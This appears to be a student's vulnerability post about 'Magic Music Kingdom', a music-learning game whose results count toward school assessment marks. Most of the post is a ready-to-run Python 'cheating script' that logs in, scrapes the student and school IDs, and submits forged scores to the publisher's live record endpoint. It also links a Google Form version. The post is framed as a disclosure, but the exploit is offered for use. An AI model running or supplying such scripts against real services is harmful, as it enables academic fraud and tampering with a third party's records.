 > [!CAUTION]
> If anyone uses the following script to engage in activities that will break the school regulations or laws in your jurisdiction, Lee Perseus Robin will not pay any responsibility for the respective activities.

> [!NOTE]
> This article discusses a recent event; please view it with caution.

Since the email vulnerability, Lee Perseus Robin (2G - 16) has found yet again a method that could be taken advantage of. This time around, it is about the Magic Music Kingdom, used by the Music Department for giving tests on instruments and also counting as SBA marks.

## What is "Magic Music Kingdom"?
> From [Hong Kong Music Publisher](https://www.hkmusic.com.hk/web/apps.asp?lang=en)

Magic Music Kingdom has a series of interactive games with different levels to accommodate your music lessons. The games include recognizing notes and rhythm, knowledge about composers and their works, etc. All records can be saved for teachers or students to keep track of the learning progress.

## What does the "cheating script" do?
Basically:
1. It pretends to be the user by getting their credentials and retrieving the school code and school ID from the hkmusic.com.hk login page.
2. It continues to use the same logic that the normal app has and sends a POST request with the information given.
3. Then, the user's record will update to what the user has ordered, hence enabling cheating.

## How to run the cheating script?
- **Google Form Version (Proof of Concept)**: [Google Form](https://forms.gle/etBbtW6QSHtjhE8z9)
- **Source Code for the Google Form (Google Apps Script)**: [Pastebin](https://pastebin.com/raw/7Y2UNSbk)
- **List of Game ID and Games**: [Imgur Album](https://imgur.com/a/8fGM1Hp)

### Python Version (for demonstration purposes only):
1. Requirments: (pip install) requests
```python
import requests
import re
import math

# Input variables from the user
total_correct = input("Enter total correct answers: ")
total_wrong = input("Enter total wrong answers: ")
name_login = input("Enter your login name: ")
password = input("Enter your password: ")
gameID = input("Enter game ID: ")
highestMaxCombo = input("Enter highest max combo: ")
totalScore = input("Enter total score: ")

# Calculate correct percentage
correct_percent = math.ceil((int(total_correct) * 100) / (int(total_correct) + int(total_wrong))) if (int(total_correct) + int(total_wrong)) > 0 else 0

# Fetching cookies
initial_url = "https://www.hkmusic.com.hk"
session = requests.Session()
session.get(initial_url)

# Get cookies from the session
cookies = session.cookies.get_dict()

# Login URL and payload
login_url = "https://www.hkmusic.com.hk/web/student_pages/login/loginRegistered.asp"
payload = {
    'name_login': name_login,
    'pw': password,
}

# Perform login
response = session.post(login_url, data=payload, cookies=cookies)
response_text = response.text

# Extract school code and student ID using regex
school_code_match = re.search(r'<input[^>]+name="schoolCode"[^>]+value="([^"]*)"', response_text)
student_id_match = re.search(r'<input[^>]+name="studentId"[^>]+value="([^"]*)"', response_text)

school_code = school_code_match.group(1) if school_code_match else None
student_id = student_id_match.group(1) if student_id_match else None

print("School code:", school_code)
print("Student ID:", student_id)

if school_code and student_id:
    # Record URL and parameters
    record_url = "https://www.hkmusic.com.hk/web/shareResources/MusicMagicKingdom_beta2/appMMKaddRecord.asp"
    params = {
        'student_id': student_id,
        'school_code': school_code,
        'gameID': gameID,
        'studentFormNumCurrent': 2,
        'totalCorrect': total_correct,
        'totalWrong': total_wrong,
        'correctPercent': correct_percent,
        'highestMaxCombo': highestMaxCombo,
        'totalScore': totalScore
    }

    # Submit the record
    record_response = session.get(record_url, params=params)
    print("Response Status Code:", record_response.status_code)
    print("Response Content:", record_response.text)
else:
    print("Login failed or could not retrieve student info.")
```
## How to fix the Vulnerability?
The only people who can fix this is the employees in "Hong Kong Music Publisher", which we have a very slim chance of getting their attention. Therefore, I propose that we just get rid of Music Magic Kingdom altogether, it ain't that fun, eh?
## How to contact us to get more information about the Vulnerability?
For further inquiries or additional information regarding this vulnerability, please feel free to reach out to me at [perseus@lscstudy.us.kg](mailto:perseus@lscstudy.us.kg), [s23218@lsc.hk](mailto:s23218@lsc.hk) or [perseusrobin@gmail.com](mailto:perseusrobin@gmail.com).
## Special thanks
The discoverer of the Vulnerability would like to thank the Developers at FFDec and 7-zip, their software has been a massive help for dicovering this.
![image](https://github.com/user-attachments/assets/e016973b-2da3-4b64-82b5-10a30ebad707)